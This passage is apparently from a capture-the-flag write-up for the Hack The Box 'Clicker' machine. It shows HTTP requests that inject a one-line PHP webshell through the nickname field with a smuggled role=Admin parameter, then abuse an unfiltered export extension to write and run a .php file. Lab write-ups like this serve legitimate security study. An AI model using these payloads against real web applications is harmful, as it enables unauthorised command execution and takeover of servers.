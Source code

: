 ![Admin](/images/htb/medium/clicker/admin.png)

Once inside I saw we could export a list of users as JSON, TXT or HTML.

Looking at the source of `exports.php` no extension filtering occurs, so we can create a `.php` file, now we just have to put a shell in.

```php
...
$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
...
```

Looking back at our parameter injection code, we can insert a new value for the `nickname` parameter post-registration which is a [tiny PHP webshell](https://github.com/bayufedra/Tiny-PHP-Webshell#simple-http-requests-get-method-shell).

```
GET /save_game.php?clicks=8794732211&level=11&nickname=<?=`$_GET[0]`?>&role%0a=Admin HTTP/1.1
Host: clicker.htb
```

I now generate a new export with the `.php` extension.

```
POST /export.php HTTP/1.1
Host: clicker.htb

threshold=1&extension=php
```

Visiting the export gives us a mostly blank page, until we use `?0=whoami` in the paramter and we get this!
